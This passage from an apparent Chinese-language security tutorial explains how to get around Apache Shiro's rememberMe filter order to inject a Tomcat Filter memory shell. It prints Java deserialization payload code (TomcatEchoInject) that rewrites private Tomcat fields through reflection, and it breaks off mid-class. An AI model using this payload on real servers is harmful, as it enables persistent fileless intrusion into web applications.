 ```java
        }
    }
}
```

我们仔细看lastServicedRequest出现的位置，是在所有的Filter都执行完毕后才会进行set，而shiro的rememberMe功能就是shiro自己实现的一个filter，常规的打法都是将payload塞入rememberMe中，所以当获取到lastServicedRequest/Response时已经反序列化完了，就不可能再注入内存马了

既然如此，我们就以毒攻毒——动态注册一个Filter内存马并把它放在最前面，先于shiro的rememberMe执行

其实本质和上面的是一样的，我们将那一段恶意代码手动放入继承了AbstractTranslet的类中

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/**
 * @author threedr3am
 */
public class TomcatEchoInject  extends AbstractTranslet {

  static {
    try {
      /*刚开始反序列化后执行的逻辑*/
      //修改 WRAP_SAME_OBJECT 值为 true
      Class c = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
      java.lang.reflect.Field f = c.getDeclaredField("WRAP_SAME_OBJECT");
      java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField("modifiers");
      modifiersField.setAccessible(true);
      modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
      f.setAccessible(true);
      if (!f.getBoolean(null)) {
        f.setBoolean(null, true);
      }

      //初始化 lastServicedRequest
      c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
      f = c.getDeclaredField("lastServicedRequest");
      modifiersField = f.getClass().getDeclaredField("modifiers");
      modifiersField.setAccessible(true);
      modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
      f.setAccessible(true);
      if (f.get(null) == null) {
        f.set(null, new ThreadLocal());
      }

      //初始化 lastServicedResponse
      f = c.getDeclaredField("lastServicedResponse");
      modifiersField = f.getClass().getDeclaredField("modifiers");
      modifiersField.setAccessible(true);
      modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
      f.setAccessible(true);
      if (f.get(null) == null) {
        f.set(null, new ThreadLocal());
      }
    } catch (Exception e) {
      e.printStackTrace();
    }
  }

  @Override
  public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
```